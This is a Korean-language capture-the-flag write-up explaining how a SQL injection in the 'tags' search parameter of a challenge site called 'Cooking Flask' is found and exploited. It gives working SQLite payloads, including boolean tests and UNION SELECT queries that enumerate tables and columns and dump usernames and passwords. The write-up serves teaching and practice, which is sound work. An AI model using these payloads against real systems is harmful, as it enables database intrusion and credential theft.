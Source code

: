 # Cooking Flask

```python
I threw together my own website! It's halfway done. Right now, you can search for recipes and stuff. I don't know a ton about coding and DBs, but I think I know enough so that no one can steal my admin password... I do know a lot about cooking though. All this food is going to make me burp. Sweet, well good luck

https://cooking.chal.cyberjousting.com
```

## Description

해당 문제는 블랙박스 형태의 문제로 링크만 제공되었습니다. 링크에 접속하면 아래의 페이지가 등장하며,

![image](./images/image-001.png)

네비 영역을 통해 다른 페이지로 넘어갈 경우 다음과 같이 404 Not Found 에러가 발생합니다.

![image](./images/image-002.png)

다른 기능은 발견하지 못했고 처음 나온 페이지에서 `Search` 버튼을 클릭하면 다음과 같이 검색된 결과를 확인할 수 있었습니다.

![image](./images/image-003.png)

또한, 문제 설명에서 힌트를 발견할 수 있었습니다. 

문제 설명에는 ‘you can search for recipes and stuff.’ 라고 나와 있어서 데이터베이스 질의를 수행할 때 발생할 수 있는 취약점 즉, SQL Injection을 이용한 문제라는 것을 알 수 있었고 플래그 정보는 ‘that no one can steal my admin password’ 라 나와 있어서 유저 정보가 담긴 테이블에 패스워드가 플래그 정보인 것을 추측했습니다. 

![image](./images/image-004.png)

이에 페이지에 나와있는 입력 폼에 SQL 질의 관련 특수문자인 싱글 쿼터(`'`)를 입력하여 요청 했더니 다음과 같이 URL 파라미터 `tags` 에 입력한 값(싱글쿼터, `'`, `%27`)에 의해 SQL 에러가 발생하는 것을 발견했습니다.

![image](./images/image-005.png)

## Solution

먼저, 에러 코드에서 URL 파라미터 `tags` 가 LIKE 구문에 전달되는 것을 유추하였습니다.

![image](./images/image-006.png)

위 코드를 통해 `tags` 에 `TEST` 를 전달할 경우 SQL 질의문 끝에  `AND (json_extract(tags, '$') LIKE '%"TEST"%')`  가 추가되는 것을 확인했습니다.

```bash
query = ""
tags = ["TEST"] # TEST 전달
tag_conditions = " OR ".join(["json_extract(tags, '$') LIKE '%\"" + tag + "\"%'" for tag in tags])
query += " AND (" + tag_conditions + ")"
print(query)
# AND (json_extract(tags, '$') LIKE '%"TEST"%')
```

즉, `TEST` 대신 `') OR 1=1 --`  를 전달할 경우 SQL 질의문의 조건문은 항상 참(`true`)을 나타냅니다.

```sql
 AND (json_extract(tags, '$') LIKE '%"') OR 1=1 -- "%')
```

![image](./images/image-007.png)

반면에 `') OR 1=2 --`  를 전달할 경우 SQL 질의문의 조건문 결과가 거짓(`false`)을 나타내므로 다음과 같이 아무런 데이터가 조회되지 않는 것을 확인했습니다.

![image](./images/image-008.png)

결과적으로 URL 파라미터 `tags` 에서 SQL Injection 취약점이 존재하는 것을 확인할 수 있었습니다.

그 다음 해당 문제는 검색 결과를 화면에서 확인할 수 있으므로 Union 구문을 이용한 SQL Injection 취약점을 통해 데이터베이스에 저장된 내용을 확인해 볼 수 있습니다. 이에 앞 조건문을 항상 거짓(`false`)으로 만든 뒤 UNION 구문을 작성했습니다.

최종적으로 다음의 페이로드를 통해 각 컬럼이 페이지 어느 위치에 응답되는지 확인할 수 있었습니다.

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4","5","6","[]","8" --
```

![image](./images/image-009.png)

이제 SQL Injection 취약점을 통해 원하는 데이터를 조회할 수 있고, 조회된 데이터가 출력되는 위치를 확인했으니 데이터베이스의 데이터들을 조회해보겠습니다.

## Exploit

원하는 데이터를 조회하기 위해서는 5번째와 6번째 컬럼에 서브쿼리를 입력하면 됩니다. 또한, 앞서 살펴봤던 에러 메시지를 통해 DBMS가 `sqlite` 인 것으로 확인됩니다.

✅ 테이블 조회

`sqlite` 에서 테이블 명(`name`)을 조회하기 위해서는 `sqlite_master` 테이블을 조회하면 됩니다. 이에 다음과 같은 페이로드를 통해 데이터베이스에 저장된 테이블 정보를 조회할 수 있었습니다.

→ `user` 테이블 발견

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4",name,"6","[]","8" FROM sqlite_master --
```

![image](./images/image-010.png)

✅ `user` 테이블의 컬럼 조회

`sqlite` 에서 컬럼조회를 위해서는 `SELECT name FROM pragma_table_info('테이블명');` 질의문을 이용할 수 있습니다. 이에 다음과 같은 페이로드를 통해 `user` 테이블의 컬럼 목록을 조회할 수 있었습니다.

→ `password`, `username` 컬럼 발견

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4",name,"6","[]","8" FROM pragma_table_info('user')--
```

![image](./images/image-011.png)

✅ 유저 정보(`username`, `password`) 조회

위에서 발견한 테이블 명 `user` 와 컬럼 명(`username`, `password`)을 통해 유저 정보를 조회합니다.

→ flag 발견

```sql
') OR 1=2 UNION SELECT "1","2","2025-01-01T00:00:00","4",username,password,"[]","8" FROM user--
```

![image](./images/image-012.png)

결국 유저 테이블(`user`)에서 `username` 이 admin 인 레코드의 `password` 컬럼 값에서 플래그를 획득할 수 있었습니다.